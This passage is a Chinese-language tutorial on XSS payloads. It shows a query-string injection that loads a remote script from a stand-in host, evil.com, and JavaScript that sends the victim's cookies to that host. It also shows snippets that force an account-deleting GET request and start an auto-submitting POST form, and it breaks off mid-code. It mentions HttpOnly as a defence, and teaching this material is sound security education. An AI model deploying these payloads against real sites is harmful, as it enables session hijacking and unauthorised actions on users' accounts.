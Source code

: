 ## XSS Payload初探

XSS攻击成功之后，攻击者能够对用户当前浏览的页面植入恶意脚本，通过恶意脚本，控制用户的浏览器。这种用以完成各种功能的恶意脚本称之为XSS Payload。

XSS Payload实际上就是javascript脚本，所以任何javascript能够实现的功能，XSS Payload都能够做到。

最常见的一个XSS Payload就是，通过读取浏览器的Cookie对象，从而发起Cookie劫持。

Cookie中一般加密保存了当前用户的登陆凭证。如果丢失，那么攻击者就能过不通过密码，直接登进用户的账户。

那么我们可以演示一下。首先龚记者可以加载一个远程脚本：
<pre class="lang:default decode:true">http://www.a.com/test.htm?abc="&gt;&lt;script src=http://www.evil.com/evil.js&gt;&lt;/script&gt;</pre>
在evil.js之中，可以使用如下代码窃取Cookie：
<pre class="lang:js decode:true" title="evil.js">var img = document.createElement("img");
img.src="http://www.evil.com/log?"+escape(document.cookie);
document.body.appendChild(img);</pre>
这段代码向页面中插入了一个不可见的图片，同时把`document.cookie`对象作为参数发送到远程服务器。

同时需要指出的是，这个网站可能并不一定要存在，这个请求实质上会在远程服务器的Web日志中留下记录的。

这样就是一个最简单的窃取Cookie和XSS Payload。

在Web之中，Cookie一般是用户登录的凭证，浏览器发起的所有请求都会自动带上cookie，如果cookie没有绑定客户端信息，当攻击者窃取cookie后，就可以免密码登陆进用户的账户。

Cookie的`HttpOnly`标示可以防止Cookie劫持。

## 强大的XSS Payload

cookie劫持并不是都能够生效的。有的网站可能会在Set-Cookie时给出关键的Cookie载入HttpOnly标识；有的网站可能会把Cookie和客户端IP绑定，从而使得XSS窃取Cookie变得没有意义。

尽管如此，XSS攻击成功之后，龚记者仍能够有许多方式控制用户的浏览器。

### 构造GET和POST请求

一个网站的应用，只需要接受HTTP协议中的GET或者POST请求就能完成所有的操作，这样对于攻击者来说，仅通过Javascript就能过浏览器发起这两种请求。

比如我的网站，只要用户访问特定的链接就能够完成指定的应用，假设我们设定某个网站的`/delete/`可以使得当前用户禁用自己的账户。这样对于攻击者来说，只需要让用户访问下面这段Javascript代码就能过使得用户执行XSS Payload来禁用自己的账户。
<pre class="lang:js decode:true">var img = document.createElement("img");
img.src="http://XXXXXXX.XXX/delete/";
document.body.appendChild(img);</pre>
如果网站应用接受的是POST请求呢？

要模拟这个过程第一种方法就是构造一个form表单，然后自动提交这个表单。
<pre class="lang:js decode:true">    var form = document.createElement("form");
    form.action="";
    form.method="post";
    document.body.appendChild(form);

    var input1 = document.createElement("input");
    input1.name="ck";
    input1.value="JiUK";
    form.appendChild(input1);
